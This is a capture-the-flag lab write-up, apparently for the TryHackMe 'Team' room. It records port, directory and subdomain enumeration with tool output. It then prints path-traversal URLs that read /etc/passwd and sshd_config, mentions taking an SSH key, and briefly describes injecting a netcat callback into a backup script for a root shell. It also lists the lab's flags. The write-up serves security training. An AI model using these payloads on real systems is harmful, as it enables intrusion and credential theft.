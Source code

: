 Team.doc
---------------

name : Eviyatar Cohen

Date : 19.10.2022

IP=10.10.56.36
-------------------------------------

Nmap Results:
==============
nmap -sC -sV 10.10.56.36     
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-19 01:32 EDT
Nmap scan report for 10.10.56.36
Host is up (0.089s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
|_  256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.27 seconds
---------------------------------------------------------------

GoBuster Results:
--------------------
gobuster dir -u http://team.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-big.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://team.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/10/19 01:42:19 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 305] [--> http://team.thm/images/]
Progress: 35 / 1273835 (0.00%)                                             Progress: 95 / 1273835 (0.01%)                                             Progress: 145 / 1273835 (0.01%)                                            Progress: 205 / 1273835 (0.02%)                                            Progress: 265 / 1273835 (0.02%)                                            /scripts              (Status: 301) [Size: 306] [--> http://team.thm/scripts/]
/assets               (Status: 301) [Size: 305] [--> http://team.thm/assets/] 

----------------------------------------------------------------

Potential Users:
=================
dale:

Run GoBuster Again With /scripts:
---------------------------------
Found in scan a directory script.txt and its content:
=====================================================
#!/bin/bash
read -p "Enter Username: " REDACTED
read -sp "Enter Username Password: " REDACTED
echo
ftp_server="localhost"
ftp_username="$Username"
ftp_password="$Password"
mkdir /home/username/linux/source_folder
source_folder="/home/username/source_folder/"
cp -avr config* $source_folder
dest_folder="/home/username/linux/dest_folder/"
ftp -in $ftp_server <<END_SCRIPT
quote USER $ftp_username
quote PASS $decrypt
cd $source_folder
!cd $dest_folder
mget -R *
quit

# Updated version of the script
# Note to self had to change the extension of the old "script" in this folder, as it has creds in
----------------------------------------------------------------

Leave This For now i Checked if there is any SubDomains:
---------------------------------------------------------
wfuzz -c --hw 977 -u http://team.thm -H "Host: FUZZ.team.thm" -w ~/Desktop/git/SecLists/Discovery/DNS/subdomains-top1mil
lion-5000.txt

---------------------------------------------------------------

Wfuzz Results:
================
wfuzz -c --hw 977 -u http://team.thm -H "Host: FUZZ.team.thm" -w ~/SecLists-master/Discovery/DNS/subdomains-top1million-5000.txt 
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://team.thm/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload   
=====================================================================

000000001:   200        89 L     220 W      2966 Ch     "www"     
000000019:   200        9 L      20 W       187 Ch      "dev"     
000000085:   200        9 L      20 W       187 Ch      "www.dev" 
000000689:   400        12 L     53 W       422 Ch      "gc._msdcs

---------------------------------------------------------------

I Added www.dev to /etc/hosts :
-------------------------------

Inside Was This Link Which Allow Me To Navigate In The System:
===============================================================
http://dev.team.thm/script.php?page=/../../../../../../etc/passwd

---------------------------------------------------------------

Now After Some Thime And Nevigate In The System I Found The ID_RSA Key For dale:
===============================================================
PATH:
=====
http://dev.team.thm/script.php?page=/../../../../../../etc/ssh/sshd_config

---------------------------------------------------------------

Login SSH with The User and The id_rsa Key Found!!
---------------------------------------------------

User Flag : THM{6Y0TXHz7c2d}

Now Lets Find The Root Flag:
============================

To find the root flag i Used the admin_checks script to switch user go gyle and then i used the main_backup.sh script to inject the nc caller to me with root shell!!

Root Flag : THM{fhqbznavfonq}

---------------------------------------------------------------
